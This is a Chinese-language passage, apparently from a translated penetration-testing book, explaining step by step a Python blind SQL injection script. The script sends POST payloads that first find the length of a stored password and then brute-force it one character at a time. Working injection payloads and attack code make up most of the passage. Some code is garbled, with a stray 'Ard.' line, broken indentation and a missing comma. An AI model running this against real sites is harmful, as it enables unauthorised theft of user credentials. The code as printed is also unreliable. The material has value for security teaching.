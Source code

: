 ## 它是如何工作的…

首先，用户必须识别只有在 SQLi 成功时才会出现的字符串。或者，可以修改脚本以响应缺少失败 SQLi 证据的情况。我们将此字符串作为一个`sys.argv`变量提供。我们还创建了两个迭代器，我们将在这个脚本中使用它们，并将它们设置为`1`，因为 MySQL 从`1`开始计数，而不是像失败的系统一样从`0`开始计数。我们还为将来的答案创建一个空列表，并指示用户脚本正在启动：

```py
yes = sys.argv[1]

i = 1
asciivalue = 1
answer = []
print “Kicking off the attempt”
```

这里的有效负载基本上请求我们试图返回的密码的长度，并将其与将被迭代的值进行比较：

```py
payload = {'injection': '\'AND char_length(password) = '+str(i)+';#', 'Submit': 'submit'}
```

然后我们永远重复下一个循环，因为我们不知道密码有多长。我们在`POST`请求中将有效负载提交到目标 URL：

```py
while True:
  req = requests.post('<target url>' data=payload)
```

每次检查我们最初设置的`yes`值是否存在于响应文本中，如果存在，则结束 while 循环，将当前值`i`设置为参数长度。`break`命令是结束`while`循环的部分：

```py
lengthtest = req.text
  if yes in lengthtest:
    length = i
    break
```

如果我们没有检测到`yes`值，我们将`1`添加到`i`并继续循环：

```py
Ard.
else:
    i = i+1
```

使用目标字符串的标识长度，我们迭代每个字符，并使用`asciivalue`遍历该字符的每个可能值。对于每个值，我们将其提交到目标 URL。因为 ascii 表只运行到`127`，所以我们将循环设置为运行到`asciivalue`达到`126`为止。如果达到`127`，则表示出现问题：

```py
for x in range(1, length):
  while asciivalue < 126:
payload = {'injection': '\'AND (substr(password, '+str(x)+', 1)) = '+ chr(asciivalue)+';#', 'Submit': 'submit'}
    req = requests.post('<target url>', data=payload)
```

我们检查响应中是否存在 yes 字符串，如果存在，则中断以转到下一个字符。我们将成功消息以字符形式附加到应答字符串，并使用`chr`命令进行转换：

```py
if yes in req.text:
    answer.append(chr(asciivalue))
break
```
